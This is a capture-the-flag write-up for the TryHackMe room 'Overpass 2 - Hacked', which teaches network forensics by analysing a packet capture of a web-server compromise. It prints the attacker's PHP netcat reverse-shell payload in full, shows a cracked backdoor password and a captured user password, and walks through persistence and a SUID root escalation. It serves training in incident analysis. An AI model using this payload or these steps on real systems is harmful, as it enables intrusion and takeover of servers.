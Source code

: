```yaml
---
title: "TryHackMe - Overpass 2 - Hacked"
date: 2023-07-31 20:50:00 +0300
image: /assets/img/Posts/overpass2.png
categories: [Tryhackme, Easy]
tags: [Network forensics, wireshark, SUID, backdoor, ssh, pcap, packet capture]
---
```


| Room       | [Overpass 2 - Hacked](https://tryhackme.com/room/overpass2hacked)    |
| ---------- | -------------------------------------------------------------------- |
| Author     | [tryhackme](https://tryhackme.com/p/tryhackme)                       |
| Difficulty | Easy                                                                 |

# Let's get started
This room focuses on analyzing the packet capture file that was saved by the soc team after noticing suspicious traffic in their network. It is aimed to help the learner grow their skills in network forensics, one of the major categories of the digital forensics domain.

Forensics skills will be vital to help uncover the attack vector the attacker used, at which endpoint, the exploit used, status of the attack and the impact the attack had to the organization.

## Forensics - Analyse the PCAP
We are presented with the `PCAP file` that we believe captured the suspicious traffic as highlighted. It is our duty to analyse it to understand the attack. We are going to use wireshark to open and analyse the traffic. 
But first we need to check the integrity of the file. We are being provided with the MD5sum of the file, so we are going to reproduce the MD5Sum and compare to see if it is original, not modified.
>NOTE: It is part of forensics to always confirm the integrity of the files or data shared.
{: .prompt-info }
It is evident that the hash we got after generating the MD5Sum of the file looks similar to the hash provided in the TryHackMe platform.

![image](/assets/img/Posts/overpass2/md5sum.png)

We proceed to opening the file in wireshark to begin our analysis.

![image](/assets/img/Posts/overpass2/wireshark-1.png)

From the look of things from the above image, we see there are several `TCP` and `HTTP` requests.Checking through clearly we see a `GET` request made from host ip `192.168.170.145` on the `/development` directory on the server that is probably running on the host `192.128.170.159`.

![image](/assets/img/Posts/overpass2/wireshark.png)

>From the IPs of the Hosts captured we can conclude that the victim and the attacker were on the same network. 
Going forward we saw here there is also a `POST` request made on the directory `/development/upload.php`, we proceed to checking that particular packet. We do so by `right-clicking` then  `follow->HTTP stream`.

![image](/assets/img/Posts/overpass2/analysis-2.png)

Checking on the nature of the request, we see that the attacker uploaded uploaded a file payload.php  that had the contents:
```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
From the file extension and the contents of the file, we can tell that the attacker did upload a `php` code the used `exec()` which can be used to execute the system commands. In this case the command  `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f` spawns a reverse shell and forwards to the attacker IP provided in the payload `192.168.170.145` to the listening port that the attacker provided `4242`.

After making this `POST` request, the attacker proceeded to do a `GET` request which was meant to execute the `payload.php` file uploaded with an intention of getting a reverse connection from the victim machine.

![image](/assets/img/Posts/overpass2/analysis-3.png)

After GETting the `payload.php` file, we see some trailing `TCP` connection to the port `4242` which had earlier been specified on the payload, which signifies the reverse connection was successful.
We can confirm by following one of `TCP` packets.

![image](/assets/img/Posts/overpass2/analysis-4.png)

The attacker got a shell onto the server as the `www-data user`, executed the python command `python3 -c ‘import pty;pty.spawn(“/bin/bash”)’` to stabilize the shell.
Then switched the user using the command su james to change the user to james and provided the password which we can see is `whenevernoteartinstant`.
From here we see the attacker proceeded to run the command `sudo -l` to list the commands or binaries that the user james can run with sudo. We find that the attacker can run `ALL` the commands in the server using the user james (BAD PRACTICE).
`(ALL : ALL) ALL`
After seeing that the attacker directly went to dump the user password hashes from the /etc/shadow file.

![image](/assets/img/Posts/overpass2/analysis-pass.png)

## Research - Analyse the code 
Then goes on to cloning the SSH backdoor onto the server obviously to maintain their stay on the server, technically we say persistence:).

![image](/assets/img/Posts/overpass2/analysis-clone.png)

We can try to access the GitHub repository the attacker cloned (SSH backdoor) from the url https://github.com/NinjaJc01/ssh-backdoor. The payload is written in `go` language.

![image](/assets/img/Posts/overpass2/analysis-github-repo.png)

Checking through the main function of the `main.go` file, we find a clue of what the code is doing. The backdoor tends to open the port `2222` for ssh connection to the attackers machine. then we see a default hash at the top and the different arguments that the attacker could use to deploy the backdoor.

![image](/assets/img/Posts/overpass2/analysis-codereview.png)

Going down the code we find there is a hardcoded string of what looks like a salt on the hash of the hash the attacker provides.

![image](/assets/img/Posts/overpass2/analysis-salt.png)

Going back to the packet capture analysis, we find that the attacker ran the backdoor with the arguments -a which as we have seen helps him enter his own password hash.
attacker hash from the pcap file: 
```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```
![image](/assets/img/Posts/overpass2/analysis-salt-attacker.png)\

With the hash and the salt we can proceed to crack them using `hashcat` to see the password the attacker set in his backdoor.

![image](/assets/img/Posts/overpass2/pass.png)

## Attack - Get back in! 
Now that we have the SSH credentials of the attacker backdoor, we can try to log into the server.
`SSH port - 2222`
Trying to login we get this error.

![image](/assets/img/Posts/overpass2/ssh-issue.png)

On a quick google search we get a solution to the problem. we add `-o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa` to our ssh command and we get a shell.

![image](/assets/img/Posts/overpass2/ssh-issue-solver.png)

![image](/assets/img/Posts/overpass2/shell.png)

we access the user flag in `james’s home` directory.

![image](/assets/img/Posts/overpass2/userflag.png)

Re-running the `sudo -l` command, on the server since we saw before on the captured traffic that james could run `ALL` the commands with sudo. It seems it is not the case anymore.
Running a `ls -la` command on james’s home directory, we find  a file `.suid_bash` with a `SUID bit`, running it with `-p` gives us the root shell.

![image](/assets/img/Posts/overpass2/suid-blog.png)

![image](/assets/img/Posts/overpass2/rootflag.png)

Enjoy :)
